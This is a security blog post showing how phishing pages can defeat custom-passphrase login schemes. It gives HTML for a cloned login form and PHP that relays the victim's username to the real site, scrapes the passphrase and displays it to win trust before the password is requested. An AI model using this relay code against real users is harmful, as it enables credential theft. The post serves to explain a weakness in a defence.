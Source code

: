 ```yaml
---
layout: post
title: How custom passphrases/pictures still don't protect against phishing
tags:
- security
---
```


As you probably remember, I have lots of interest in phishing techniques (I talked about one [here](/blog/2007/07/11/the-anatomy-of-a-phishing-attack-advanced-technique/), and preventing them [here](/blog/2007/07/11/the-top-17-ways-to-help-eliminate-the-phishing-threat/)).  I've noticed a new trend: a dual stage login form with a custom picture or passphrase.  Users are to gain trust in the login page because their custom configured option is displayed.  The more I started thinking about this, however, I kept seeing an issue - this still can be easily phished!  I'm going to demonstrate a method of phishing the passphrase version.  I don't want to do a picture example because it a) takes more code and b) more people have moved to that thinking it is more secure.  Lets go:

First off, all phishing starts with getting the user to a login page not at the respected domain.  So, lets just skip that step, and examine our login page.  This will be a duplicate of our real site's login page - note the reminder that they will have to verify their passphrase.

**login.php** @ fakedomain.com

{% highlight HTML %}
<form action="login2.php" method="post">
    <label>Username: <input name="username"></input><br></br>
    <em>Remember, you will be asked to verify your passphrase on the next page.</em><br></br>
    <input type="submit" value="Login"></input>
</form>
{% endhighlight %}

Very simple login which sends it to another page - hopefully named the same as the real domain's login page.

Lets look at the page we'll be submitting to:

**login2.php** @ fakedomain.com

{% highlight PHP %}
<?php    
/** cutting out a lot of code - make sure its not empty, etc **/
$args = array ('username'=>$_POST['username']);
$uri = 'http://realdomain.com/login.do.php';
 $opts = array('http'=>array('method'=>'POST', 'header'=>'Content-Type: application/x-www-form-urlencoded', 'content'=>http_build_query($args)));
 $context = stream_context_create($opts);
$page_with_phrase = file_get_contents($uri, false, $context);

$doc = new DomDocument();
$doc->loadHTML($page_with_phrase );

$passphrase = $doc->getElementById('passphrase_node')->nodeValue;

/** next login form page actually shows the $passphrase phrase and asks for password **/
include('next_login_form.php');
{% endhighlight %}


Ok, first off, you'll see we create a nice post with our stream context creation ([detailed here](/blog/2008/11/14/posting-requests-in-php-without-curl/)) - so we basically send the username to the real domain as they had logged in.  (Depending on the target site, you might also have to send referrers, cookies, etc - but we're making it a really simple example here.)

We retrieve the page after a successful post of the username.  This content should now contain the custom passphrase somewhere.  For our example, there is a nicely named div or span with an id of 'passphrase_node'.  Probably, in real life, you'd have to use a complex xpath to get the actual value.

From then on, we just include our 'second' login page which shows the passphrase, and then requests the password from the user.  From there, you can do whatever you want.

**Ok so...**
Its nice to see that people are trying to eliminate phishing - but there still is only one real solution IMHO - and that is to educate users on the address bar (or get them to install a plugin that validates the page they're on.).
